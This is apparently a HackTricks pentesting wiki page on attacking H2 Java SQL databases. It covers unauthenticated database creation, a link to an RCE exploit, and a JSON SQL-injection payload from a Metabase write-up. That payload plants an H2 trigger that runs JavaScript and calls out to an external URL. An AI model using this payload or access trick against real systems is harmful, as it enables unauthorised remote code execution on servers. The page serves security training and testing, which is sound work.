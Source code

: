 # H2 - Java SQL database

{{#include ../../banners/hacktricks-training.md}}

{% embed url="https://websec.nl/" %}

Official page: [https://www.h2database.com/html/main.html](https://www.h2database.com/html/main.html)

## Access

You can indicate a **non-existent name a of database** in order to **create a new database without valid credentials** (**unauthenticated**):

![](<../../images/image (131).png>)

Or if you know that for example a **mysql is running** and you know the **database name** and the **credentials** for that database, you can just access it:

![](<../../images/image (201).png>)

_**Trick from box Hawk of HTB.**_

## **RCE**

Having access to communicate with the H2 database check this exploit to get RCE on it: [https://gist.github.com/h4ckninja/22b8e2d2f4c29e94121718a43ba97eed](https://gist.github.com/h4ckninja/22b8e2d2f4c29e94121718a43ba97eed)

## H2 SQL Injection to RCE

In [**this post**](https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/) a payload is explained to get **RCE via a H2 database** abusing a **SQL Injection**.

```json
[...]
"details":
    {
        "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER IAMPWNED BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\nnew java.net.URL('https://example.com/pwn134').openConnection().getContentLength()\n$$--=x\\;",
        "advanced-options": false,
        "ssl": true
    },
[...]
```

{% embed url="https://websec.nl/" %}

{{#include ../../banners/hacktricks-training.md}}
